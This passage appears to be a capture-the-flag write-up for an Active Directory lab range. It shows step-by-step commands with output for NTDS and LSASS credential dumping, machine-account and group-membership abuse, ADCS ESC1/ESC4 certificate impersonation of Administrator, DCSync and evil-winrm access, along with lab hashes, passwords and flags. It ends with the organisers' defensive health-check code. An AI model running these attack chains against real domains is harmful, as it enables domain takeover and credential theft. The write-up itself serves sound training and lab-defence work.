SMB 10.5.10.10 445 DC01 [+] antennae.rv\kai.wen.goh:56e7e432c955bfdbb8f57d1248417116 (Pwn3d!)
SMB 10.5.10.10 445 DC01 [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB 10.5.10.10 445 DC01 natasha.lim:1123:aad3b435b51404eeaad3b435b51404ee:0a1bc6b13cd3106322a6d5bbb0293e44:::
Foreign MAQ
As we did before to enumerate the MachineAccountQuota on antennae.rv, we can do the same for backward.rv. Due to the bidirectional trust, we can use the credentials of any user in antennae.rv to query backward.rv. In this case, we’ll use the credentials of natasha.lim:
~$ nxc ldap dc02.backward.rv -u 'natasha.lim' -H '0a1bc6b13cd3106322a6d5bbb0293e44' -d 'antennae.rv' -M maq
LDAP 10.5.10.12 389 DC02 [*] Windows Server 2022 Build 20348 (name:DC02) (domain:antennae.rv) (signing:None) (channel binding:Never)
LDAP 10.5.10.12 389 DC02 [+] antennae.rv\natasha.lim:0a1bc6b13cd3106322a6d5bbb0293e44
MAQ 10.5.10.12 389 DC02 [*] Getting the MachineAccountQuota
MAQ 10.5.10.12 389 DC02 MachineAccountQuota: 10
We can create a new computer account in backward.rv, using natasha.lim’s credentials:
~$ nxc smb dc02.backward.rv -u 'natasha.lim' -H '0a1bc6b13cd3106322a6d5bbb0293e44' -d 'antennae.rv' -M add-computer -o NAME="gatari$" PASSWORD='P@ssw0rd'
SMB 10.5.10.12 445 DC02 [*] Windows Server 2022 Build 20348 x64 (name:DC02) (domain:backward.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB 10.5.10.12 445 DC02 [+] antennae.rv\natasha.lim:0a1bc6b13cd3106322a6d5bbb0293e44
ADD-COMP... 10.5.10.12 445 DC02 Successfully added the machine account: "gatari$" with Password: "P@ssw0rd"
Abusing GenericAll on Group, again
Now that we have a computer account in backward.rv, we can use the GenericAll permissions that the Maintainers group has on the Sysadmins group to add our computer account to the Sysadmins group:
~$ bloodyAD --host 'dc02.backward.rv' -u 'natasha.lim' -p ':0a1bc6b13cd3106322a6d5bbb0293e44' -d 'antennae.rv' add groupMember 'sysadmins' 'gatari$'
[+] gatari$ added to sysadmins
We can verify that our computer account is indeed a member of the Sysadmins group:
~$ nxc ldap dc02.backward.rv -u 'gatari$' -p 'P@ssw0rd' -M whoami
LDAP 10.5.10.12 389 DC02 [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never)
LDAP 10.5.10.12 389 DC02 [+] backward.rv\gatari$:P@ssw0rd
WHOAMI 10.5.10.12 389 DC02 Name: gatari
WHOAMI 10.5.10.12 389 DC02 sAMAccountName: gatari$
WHOAMI 10.5.10.12 389 DC02 Enabled: Yes
WHOAMI 10.5.10.12 389 DC02 Password Never Expires: No
WHOAMI 10.5.10.12 389 DC02 Last logon: Never
WHOAMI 10.5.10.12 389 DC02 Password Last Set: Never
WHOAMI 10.5.10.12 389 DC02 Bad Password Count: 0
WHOAMI 10.5.10.12 389 DC02 Distinguished Name: CN=gatari,CN=Computers,DC=backward,DC=rv
WHOAMI 10.5.10.12 389 DC02 Member of: CN=Sysadmins,CN=Users,DC=backward,DC=rv
WHOAMI 10.5.10.12 389 DC02 User SID: S-1-5-21-2163652167-2436585246-2491459670-1605
Local Administrator
Now that we are part of the sysadmins group, we can enumerate for local administrator access on machines in the backward.rv domain. We can do this with nxc:
~$ nxc smb srv01.backward.rv -u 'gatari$' -p 'P@ssw0rd'
SMB 10.5.10.13 445 SRV01 [*] Windows Server 2022 Build 20348 x64 (name:SRV01) (domain:backward.rv) (signing:True) (SMBv1:False)
SMB 10.5.10.13 445 SRV01 [+] backward.rv\gatari$:P@ssw0rd (Pwn3d!)
The presence of the (Pwn3d!) message indicates that gatari$ has local administrator access on srv01.backward.rv. This is likely because the Sysadmins group is a member of the Administrators group on srv01.backward.rv. We can SSH into srv01.backward.rv as gatari$.
~$ sshpass -p 'P@ssw0rd' ssh 'gatari$'@srv01.backward.rv
PS C:\Users\gatari$> whoami
backward\gatari$
And grab flag7.txt:
PS C:\Users\gatari$> cat C:\Users\Administrator\Desktop\flag7.txt
RV{f0r3I6n_GRoUP_mEMBeRSH1p_!$_pR3t7Y_4nNoyin9_549d3e2a7fd475283f4ce5f93f489a76}
Flag 8: Backward

After compromising srv01.backward.rv, we can do the same credential dumping technique as shown in Flag 6: Antennae to dump the LSASS process.
Dumping LSASS, again
Previously, we used mimikatz.exe, but we can also use the lsassy module from nxc to do the same. We’ll find the NTLM hash of iqbal.hassan.
~$ nxc smb srv01.backward.rv -u 'gatari$' -p 'P@ssw0rd' -M lsassy
SMB 10.5.10.13 445 SRV01 [*] Windows Server 2022 Build 20348 x64 (name:SRV01) (domain:backward.rv) (signing:True) (SMBv1:False)
SMB 10.5.10.13 445 SRV01 [+] backward.rv\gatari$:P@ssw0rd (Pwn3d!)
LSASSY 10.5.10.13 445 SRV01 Saved 16 Kerberos ticket(s) to /home/kali/.nxc/modules/lsassy
LSASSY 10.5.10.13 445 SRV01 backward\iqbal.hassan dfd368bc95bd217c04415fed81c8933e
We can verify that these credentials are valid for the domain with nxc:
~$ nxc ldap dc02.backward.rv -u 'iqbal.hassan' -H 'dfd368bc95bd217c04415fed81c8933e'
LDAP 10.5.10.12 389 DC02 [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never)
LDAP 10.5.10.12 389 DC02 [+] backward.rv\iqbal.hassan:dfd368bc95bd217c04415fed81c8933e
Active Directory Certificate Services (ADCS)
In modern Active Directory environments, it’s common to find Active Directory Certificate Services (ADCS) deployed. ADCS is often used internally for issuing certificates for various purposes, such as provisioning TLS certificates for web servers - and these certificates are also used for LDAPS (LDAP over SSL/TLS) connections.
We can enumerate for the presence of ADCS by looking for the pKIEnrollmentService object class in LDAP:
~$ nxc ldap dc02.backward.rv -u 'iqbal.hassan' -H 'dfd368bc95bd217c04415fed81c8933e' --query "(objectClass=pKIEnrollmentService)" "cn dNSHostName" --base-dn 'CN=Configuration,DC=backward,DC=rv'
LDAP 10.5.10.12 389 DC02 [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never)
LDAP 10.5.10.12 389 DC02 [+] backward.rv\iqbal.hassan:dfd368bc95bd217c04415fed81c8933e
LDAP 10.5.10.12 389 DC02 [+] Response for object: CN=BACKWARD-ENTERPRISE-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=backward,DC=rv
LDAP 10.5.10.12 389 DC02 cn BACKWARD-ENTERPRISE-CA
LDAP 10.5.10.12 389 DC02 dNSHostName DC02.backward.rv
We’ll find that ADCS is deployed in backward.rv, with the Certificate Authority (CA) role installed on dc02.backward.rv. Additionally, the Common Name (CN) of the CA is BACKWARD-ENTERPRISE-CA.
Enumerating Certificate Templates
The “go-to” tool for ADCS enumeration is certipy, we can use this to list all the certificate templates that are available for enrollment:
~$ certipy find -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -stdout -enabled | grep 'Template Name' | awk -F': ' '{print $2}'
Certipy v5.0.3 - by Oliver Lyak (ly4k)
BackwardDev
BackwardUser
KerberosAuthentication
DirectoryEmailReplication
DomainControllerAuthentication
SubCA
WebServer
DomainController
Machine
EFSRecovery
Administrator
EFS
User
Most of these templates are enabled by default, such as User, Machine, and DomainController. However, there are some non-default templates that are also enabled, such as BackwardDev and BackwardUser.
Using Templates
Templates with the Client Authentication purpose can be used to authenticate to services, similar to how we did earlier with plaintext credentials. An example of such a template is the User built-in template:
~$ certipy find -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -stdout -enabled
[...snip...]
12
Template Name : User
Display Name : User
Certificate Authorities : BACKWARD-ENTERPRISE-CA
Enabled : True
Client Authentication : True
Enrollment Agent : False
Any Purpose : False
Enrollee Supplies Subject : False
Certificate Name Flag : SubjectAltRequireUpn
SubjectAltRequireEmail
SubjectRequireEmail
SubjectRequireDirectoryPath
Enrollment Flag : IncludeSymmetricAlgorithms
PublishToDs
AutoEnrollment
Private Key Flag : ExportableKey
Extended Key Usage : Encrypting File System
Secure Email
Client Authentication
Requires Manager Approval : False
Requires Key Archival : False
Authorized Signatures Required : 0
Schema Version : 1
Validity Period : 1 year
Renewal Period : 6 weeks
Minimum RSA Key Length : 2048
Template Created : 2025-08-30T08:43:21+00:00
Template Last Modified : 2025-08-30T08:43:21+00:00
Permissions
Enrollment Permissions
Enrollment Rights : BACKWARD.RV\Domain Admins
BACKWARD.RV\Domain Users
BACKWARD.RV\Enterprise Admins
Object Control Permissions
Owner : BACKWARD.RV\Enterprise Admins
Full Control Principals : BACKWARD.RV\Domain Admins
BACKWARD.RV\Enterprise Admins
Write Owner Principals : BACKWARD.RV\Domain Admins
BACKWARD.RV\Enterprise Admins
Write Dacl Principals : BACKWARD.RV\Domain Admins
BACKWARD.RV\Enterprise Admins
Write Property Enroll : BACKWARD.RV\Domain Admins
BACKWARD.RV\Domain Users
BACKWARD.RV\Enterprise Admins
[+] User Enrollable Principals : BACKWARD.RV\Domain Users
[...snip...]
By default, all domain users can enroll for this template. We can use certipy to request a certificate for the iqbal.hassan user:
~$ certipy req -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -ca 'BACKWARD-ENTERPRISE-CA' -template 'User'
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[!] DNS resolution failed: The DNS query name does not exist: dc02.backward.rv.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate with UPN 'iqbal.hassan@backward.rv'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'iqbal.hassan.pfx'
[*] Wrote certificate and private key to 'iqbal.hassan.pfx'
This PFX file contains both the certificate and the private key, which we can use to authenticate to services that support PKI (Public Key Infrastructure) authentication, such as LDAP:
~$ nxc ldap dc02.backward.rv -u 'iqbal.hassan' --pfx-cert iqbal.hassan.pfx -M whoami
LDAP 10.5.10.12 389 DC02 [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never)
LDAP 10.5.10.12 389 DC02 [+] backward.rv\iqbal.hassan:dfd368bc95bd217c04415fed81c8933e
WHOAMI 10.5.10.12 389 DC02 Name: Iqbal Hassan
WHOAMI 10.5.10.12 389 DC02 sAMAccountName: iqbal.hassan
WHOAMI 10.5.10.12 389 DC02 Enabled: Yes
WHOAMI 10.5.10.12 389 DC02 Password Never Expires: No
WHOAMI 10.5.10.12 389 DC02 Last logon: 2025-09-08 15:18:05 UTC
WHOAMI 10.5.10.12 389 DC02 Password Last Set: 2025-08-28 19:17:07 UTC
WHOAMI 10.5.10.12 389 DC02 Bad Password Count: 0
WHOAMI 10.5.10.12 389 DC02 Distinguished Name: CN=Iqbal Hassan,CN=Users,DC=backward,DC=rv
WHOAMI 10.5.10.12 389 DC02 Member of: CN=CA-Test,CN=Users,DC=backward,DC=rv
WHOAMI 10.5.10.12 389 DC02 User SID: S-1-5-21-2163652167-2436585246-2491459670-1109
Path 1: ESC1
The BackwardUser template is a custom template that was created in this environment. It has the Client Authentication purpose, and the iqbal.hassan user is allowed to enroll for it:
~$ certipy find -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -stdout -enabled | grep 'BackwardUser' -A 20
Certipy v5.0.3 - by Oliver Lyak (ly4k)
Template Name : BackwardUser
Display Name : Backward User
Certificate Authorities : BACKWARD-ENTERPRISE-CA
Enabled : True
Client Authentication : True
Enrollment Agent : False
Any Purpose : False
Enrollee Supplies Subject : True
Certificate Name Flag : EnrolleeSuppliesSubject
Extended Key Usage : Client Authentication
Requires Manager Approval : False
Requires Key Archival : False
Authorized Signatures Required : 0
Schema Version : 2
Validity Period : 1 year
Renewal Period : 6 weeks
Minimum RSA Key Length : 2048
Template Created : 2025-08-30T08:43:39+00:00
Template Last Modified : 2025-08-30T08:43:40+00:00
If we compare this to the User template, we’ll notice that the Enrollee Supplies Subject property is set to True. This means that the user can specify the Subject of the certificate, which includes the Common Name (CN) and User Principal Name (UPN).
This misconfiguration is critical, as it allows any user to enroll for a certificate but specifying the Subject as any other user in the domain. The “Supply in the request” option is often used in scenarios where the certificate requester needs to specify a particular identity, such as when a service account or application requires a certificate with a specific Common Name (CN) or User Principal Name (UPN) that differs from the requester’s own identity.

It is worth mentioning that when attempting to check this box, a warning message is displayed. As a result, you really do need to intentionally select this option and ignore the security warning. Despite the warning, this is still a common configuration setting that is required by some applications.
And yet,
ESC1is the most common misconfiguration encountered inADCSenvironments.

Enrolling for BackwardUser
We can use certipy to request a certificate for the iqbal.hassan user, but artificially setting the userPrincipalName (UPN) to Administrator@backward.rv:
~$ certipy req -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -ca 'BACKWARD-ENTERPRISE-CA' -upn 'Administrator@backward.rv' -template 'BackwardUser'
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[!] DNS resolution failed: The DNS query name does not exist: dc02.backward.rv.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 11
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@backward.rv'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
We can then use this PFX file to authenticate to LDAP as Administrator:
~$ nxc ldap dc02.backward.rv -u 'Administrator' --pfx-cert administrator.pfx
LDAP 10.5.10.12 389 DC02 [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never)
LDAP 10.5.10.12 389 DC02 [+] backward.rv\Administrator:d0e0677333c1c1e80a537d580b158509 (Pwn3d!)
As we did earlier in DCSync Attack, we can use nxc to perform a DCSync attack to obtain the NTLM hash of the Administrator user:
~$ nxc smb dc02.backward.rv -u 'Administrator' --pfx-cert administrator.pfx --ntds --user 'Administrator'
SMB 10.5.10.12 445 DC02 [*] Windows Server 2022 Build 20348 x64 (name:DC02) (domain:backward.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB 10.5.10.12 445 DC02 [+] backward.rv\Administrator:d0e0677333c1c1e80a537d580b158509 (Pwn3d!)
SMB 10.5.10.12 445 DC02 [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB 10.5.10.12 445 DC02 Administrator:500:aad3b435b51404eeaad3b435b51404ee:d0e0677333c1c1e80a537d580b158509:::
And lastly, we can use these credentials with evil-winrm to grab the final flag on dc02.backward.rv:
~$ evil-winrm -i dc02.backward.rv -u 'Administrator' -H 'd0e0677333c1c1e80a537d580b158509'
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat C:\Users\Administrator\Desktop\flag8.txt
RV{adCs_1$_!NcreD!8Ly_DAN93ROu$_b9d9130b50d9cbcf8d9250c2c8e61385}
Path 2: ESC4
The BackwardDev template is another custom template that was created in this environment. It has the Client Authentication purpose, and the iqbal.hassan user is allowed to enroll for it:
~$ certipy find -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -stdout -enabled | grep 'BackwardDev' -A 60
Certipy v5.0.3 - by Oliver Lyak (ly4k)
Template Name : BackwardDev
Display Name : Backward Dev
Certificate Authorities : BACKWARD-ENTERPRISE-CA
Enabled : True
Client Authentication : False
Enrollment Agent : False
Any Purpose : False
Enrollee Supplies Subject : False
Certificate Name Flag : SubjectAltRequireUpn
SubjectRequireEmail
SubjectRequireDirectoryPath
Enrollment Flag : IncludeSymmetricAlgorithms
PendAllRequests
PublishToDs
AutoEnrollment
Private Key Flag : ExportableKey
Extended Key Usage : Code Signing
Requires Manager Approval : True
Requires Key Archival : False
RA Application Policies : Any Purpose
Authorized Signatures Required : 1
Schema Version : 2
Validity Period : 1 year
Renewal Period : 6 weeks
Minimum RSA Key Length : 4096
Template Created : 2025-08-30T08:43:45+00:00
Template Last Modified : 2025-08-30T08:43:47+00:00
Permissions
Enrollment Permissions
Enrollment Rights : BACKWARD.RV\CA-Test
Object Control Permissions
Owner : BACKWARD.RV\Enterprise Admins
Full Control Principals : BACKWARD.RV\CA-Test
BACKWARD.RV\Domain Admins
BACKWARD.RV\Local System
BACKWARD.RV\Enterprise Admins
Write Owner Principals : BACKWARD.RV\CA-Test
BACKWARD.RV\Domain Admins
BACKWARD.RV\Local System
BACKWARD.RV\Enterprise Admins
Write Dacl Principals : BACKWARD.RV\CA-Test
BACKWARD.RV\Domain Admins
BACKWARD.RV\Local System
BACKWARD.RV\Enterprise Admins
Write Property Enroll : BACKWARD.RV\CA-Test
We’ll find that, unlike BackwardUser, this template does not have the Enrollee Supplies Subject property set to True. We also notice that the BACKWARD.RV\CA-Test group is a non-default group that has been granted enrollment rights, and Full Control on the template.
The iqbal.hassan user is a member of the CA-Test group, which grants him full control over the BackwardDev template.
~$ nxc ldap dc02.backward.rv -u 'iqbal.hassan' -H 'dfd368bc95bd217c04415fed81c8933e' -M whoami
LDAP 10.5.10.12 389 DC02 [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never)
LDAP 10.5.10.12 389 DC02 [+] backward.rv\iqbal.hassan:dfd368bc95bd217c04415fed81c8933e
WHOAMI 10.5.10.12 389 DC02 Name: Iqbal Hassan
WHOAMI 10.5.10.12 389 DC02 sAMAccountName: iqbal.hassan
WHOAMI 10.5.10.12 389 DC02 Enabled: Yes
WHOAMI 10.5.10.12 389 DC02 Password Never Expires: No
WHOAMI 10.5.10.12 389 DC02 Last logon: 2025-09-08 15:38:32 UTC
WHOAMI 10.5.10.12 389 DC02 Password Last Set: 2025-08-28 19:17:07 UTC
WHOAMI 10.5.10.12 389 DC02 Bad Password Count: 0
WHOAMI 10.5.10.12 389 DC02 Distinguished Name: CN=Iqbal Hassan,CN=Users,DC=backward,DC=rv
WHOAMI 10.5.10.12 389 DC02 Member of: CN=CA-Test,CN=Users,DC=backward,DC=rv
WHOAMI 10.5.10.12 389 DC02 User SID: S-1-5-21-2163652167-2436585246-2491459670-1109
Abusing Full Control
With full control over the BackwardDev template, we can modify its properties. One of the properties we can change is the Enrollee Supplies Subject property, which we can set to True. This will make the BackwardDev template behave similarly to the BackwardUser template, thereby being vulnerable to ESC1.
We can use certipy to modify the template, and keep a copy of the original template in case we need to revert the changes later. The -write-default-configuration flag can be used to apply an ESC1 configuration to the template:
~$ certipy template --help
[...snip...]
-write-default-configuration
Apply the default Certipy ESC1 configuration to the certificate template. This configures the template to be vulnerable to ESC1 attack.
[...snip...]
Now, we can apply the ESC1 configuration to the BackwardDev template:
~$ certipy template -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -template 'BackwardDev' -write-default-configuration
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[!] DNS resolution failed: The DNS query name does not exist: dc02.backward.rv.
[!] Use -debug to print a stacktrace
[*] Saving current configuration to 'BackwardDev.json'
[*] Wrote current configuration for 'BackwardDev' to 'BackwardDev.json'
[*] Updating certificate template 'BackwardDev'
[*] Deleting:
[*] msPKI-RA-Application-Policies: []
[*] Replacing:
[*] nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*] flags: 66104
[*] pKIDefaultKeySpec: 2
[*] pKIKeyUsage: b'\x86\x00'
[*] pKIMaxIssuingDepth: -1
[*] pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*] pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*] msPKI-RA-Signature: 0
[*] msPKI-Enrollment-Flag: 0
[*] msPKI-Private-Key-Flag: 16
[*] msPKI-Certificate-Name-Flag: 1
[*] msPKI-Minimal-Key-Size: 2048
[*] msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'BackwardDev'? (y/N): y
[*] Successfully updated 'BackwardDev'
We can verify that the Enrollee Supplies Subject property has been set to True:
~$ certipy find -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -stdout -enabled | grep 'BackwardDev' -A 20
Certipy v5.0.3 - by Oliver Lyak (ly4k)
Template Name : BackwardDev
Display Name : Backward Dev
Certificate Authorities : BACKWARD-ENTERPRISE-CA
Enabled : True
Client Authentication : True
Enrollment Agent : False
Any Purpose : False
Enrollee Supplies Subject : True
Just like we did with BackwardUser, we can now request a certificate for the iqbal.hassan user, but artificially setting the userPrincipalName (UPN) to Administrator@backward.rv:
~$ certipy req -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -ca 'BACKWARD-ENTERPRISE-CA' -upn 'Administrator@backward.rv' -template 'BackwardDev'
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[!] DNS resolution failed: The DNS query name does not exist: dc02.backward.rv.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 12
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@backward.rv'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
We can then use this PFX file to authenticate to LDAP as Administrator, from which we can do exactly what we did in Path 1: ESC1 to get the final flag:
~$ nxc ldap dc02.backward.rv -u 'Administrator' --pfx-cert administrator.pfx
LDAP 10.5.10.12 389 DC02 [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never)
LDAP 10.5.10.12 389 DC02 [+] backward.rv\Administrator:d0e0677333c1c1e80a537d580b158509 (Pwn3d!)
Cleanup
As we have modified the BackwardDev template, it is good practice to revert the changes to avoid leaving the environment in a vulnerable state. We can use the saved configuration file BackwardDev.json to restore the original settings of the template:
~$ certipy template -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -template 'BackwardDev' -write-configuration BackwardDev.json
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[!] DNS resolution failed: The DNS query name does not exist: dc02.backward.rv.
[!] Use -debug to print a stacktrace
[*] Saving current configuration to 'BackwardDev.json'
File 'BackwardDev.json' already exists. Overwrite? (y/n - saying no will save with a unique filename): n
[*] Wrote current configuration for 'BackwardDev' to 'BackwardDev_ffca128e-e91d-4e24-bbfd-6ecfcb17a869.json'
[*] Updating certificate template 'BackwardDev'
[*] Adding:
[*] msPKI-RA-Application-Policies: ['2.5.29.37.0']
[*] Replacing:
[*] nTSecurityDescriptor: b'\x01\x00\x04\x8c\x0c\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x04\x00\xf8\x00\x07\x00\x00\x00\x05\x008\x00\x00\x01\x00\x00\x01\x00\x00\x00h\xc9\x10\x0e\xfbx\xd2\x11\x90\xd4\x00\xc0Oy\xdcU\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00G\xb6\xf6\x80\x1eW;\x91V\xa8\x80\x94D\x06\x00\x00\x00\x00$\x00\xff\x01\x0f\x00\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00G\xb6\xf6\x80\x1eW;\x91V\xa8\x80\x94\x00\x02\x00\x00\x00\x00$\x00\xff\x01\x0f\x00\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00G\xb6\xf6\x80\x1eW;\x91V\xa8\x80\x94D\x06\x00\x00\x00\x00\x14\x00\x94\x00\x02\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x12\x00\x00\x00\x00\x12$\x00\xff\x01\x0f\x00\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00G\xb6\xf6\x80\x1eW;\x91V\xa8\x80\x94\x07\x02\x00\x00\x00\x12$\x00\xbd\x01\x0f\x00\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00G\xb6\xf6\x80\x1eW;\x91V\xa8\x80\x94\x00\x02\x00\x00\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00G\xb6\xf6\x80\x1eW;\x91V\xa8\x80\x94\x07\x02\x00\x00'
[*] flags: 131642
[*] pKIDefaultKeySpec: 1
[*] pKIKeyUsage: b'\xa0\x00'
[*] pKIMaxIssuingDepth: 0
[*] pKICriticalExtensions: ['2.5.29.15']
[*] pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.3']
[*] msPKI-RA-Signature: 1
[*] msPKI-Enrollment-Flag: 43
[*] msPKI-Private-Key-Flag: 16842768
[*] msPKI-Certificate-Name-Flag: -1577058304
[*] msPKI-Minimal-Key-Size: 4096
[*] msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.3']
Are you sure you want to apply these changes to 'BackwardDev'? (y/N): y
[*] Successfully updated 'BackwardDev'
We can verify that the Enrollee Supplies Subject property has been reverted to False:
~$ certipy find -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -stdout -enabled | grep 'BackwardDev' -A 20
Certipy v5.0.3 - by Oliver Lyak (ly4k)
Template Name : BackwardDev
Display Name : Backward Dev
Certificate Authorities : BACKWARD-ENTERPRISE-CA
Enabled : True
Client Authentication : False
Enrollment Agent : False
Any Purpose : False
Enrollee Supplies Subject : False
Behind the Scenes
In the 2 previous conferences that we sponsored this year, we presented similar ranges: SINCON 2025, and Off-By-One 2025. In both of these conferences, we mainly focused on ensuring that the labs had the necessary guardrails to ensure that unintended solutions were not possible.
A Common Theme
The effort was not in vain, as we observed that the majority of participants followed the intended paths. However, we did notice that a few participants were piggybacking off other participants’ solutions, which led to some confusion. This is a common occurrence in Capture The Flag (CTF) events, where participants share the same network environment - referred to as “griefing”.
There are a number of ways that participants can piggyback off each other, such as:
- Adding common compromised users to privileged groups
- Modifying
ADCStemplates, without reverting the changes - Tbh, too many more to list here…
This is not an easy problem to solve, especially in a live event where participants are actively trying to break into the environment. Instead of focusing on preventing unintended solutions, we placed a heavy emphasis on preventing these disruptions this time around.
Environment Checking
A path that participants may have tried, was to add the jolene.ong user to the Senior Developers group rather than creating a new user. This would have essentially “broken” the intended path, as the next participant would no longer have to abuse this GenericAll ACE.
In a fixed environment, it is trivial to identify the “default” users present in the environment. For example, in antennae.rv, we know that the Senior Developers group initially only contains 2 members. And as such, we can continually monitor the membership of this group, and remove any unexpected members.
@healthcheck
def check_group_mem_senior_developers(ctx: Context) -> "TestResult":
ctx.logger.info("Checking group membership for senior-developers...")
config = ctx.config
cred = config.get_credential("antennae_da")
members = ad.get_group_membership(
cfg=config,
group_name="Senior Developers",
dc_hostname="dc01",
identifier=cred.id,
)
original_members = [
"wei.jie.tan",
"danish.hakim",
]
disruptive_members = [m for m in members if m not in original_members]
# more filtering can be done here, such as ignoring users that are known to be created by participants
# e.g. disruptive_members = [m for m in disruptive_members if not m.startswith("rvctf2025-")]
if disruptive_members:
ctx.logger.warning(f"Disruptive members found in senior-developers: {', '.join(disruptive_members)}")
cmd = f"""
$group = "senior-developers"
$members = @({', '.join([f'"{m}"' for m in disruptive_members])})
foreach ($member in $members)
""".strip()
output = execute_command_winrm(
server="dc01.antennae.rv",
username=cred.username,
password=cred.password,
command=cmd
).strip()
# do more stuff...
Of course, this can be extended to monitor anything else that is relevant to the environment - for example, ensuring that essential files are not modified, such that the next participant can still complete the challenge.
@healthcheck
def check_wjt_ps_history(ctx: Context) -> "TestResult":
config = ctx.config
cred = config.get_credential("wei.jie.tan")
output = execute_command_ssh(
server="sql01.antennae.rv",
username=cred.username,
password=cred.password,
command="Get-Content (Get-PSReadlineOption).HistorySavePath"
).strip()
expected = r"""
sqlcmd -S localhost -U "svc_sql" -P "P@ssw0rd_f0r_SQL-antennae" -Q "EXEC sp_helpdb;"
"""
if expected.strip() not in output:
# uh oh, the challenge is not solvable anymore!
# do stuff... maybe revert the changes?
Automating these checks can help to ensure that the environment remains in a consistent state, and that participants can complete the challenges as intended. Additionally, when handling these events in person, it’s not easy to monitor the environment manually, especially when there are many participants. Automating these checks can help to reduce the workload on the event organizers, allowing them to focus on other aspects of the event.
Many of these engineering efforts were done when designing the W200 course, to ensure that the labs remain in a consistent state. Additionally, should any learner accidentally break the lab, we can monitor and revert the changes automatically, ensuring uptime even during weekends or non-working hours,
LDAP Modifications
Another measure that can be done is taking a snapshot of the current LDAP state, and periodically checking for any changes and reverting them back. An example is the following snippet from our internal libraries that can used to monitor these changes
def compare_snapshots(
self, current_snapshot: Dict[str, Dict[str, Any]]
) -> List[LDAPChange]:
changes = []
timestamp = datetime.now()
# [...snip...]
current_attrs = current_snapshot[dn]
all_attrs = set(self.baseline_attrs.keys()) | set(current_attrs.keys())
for attr in all_attrs:
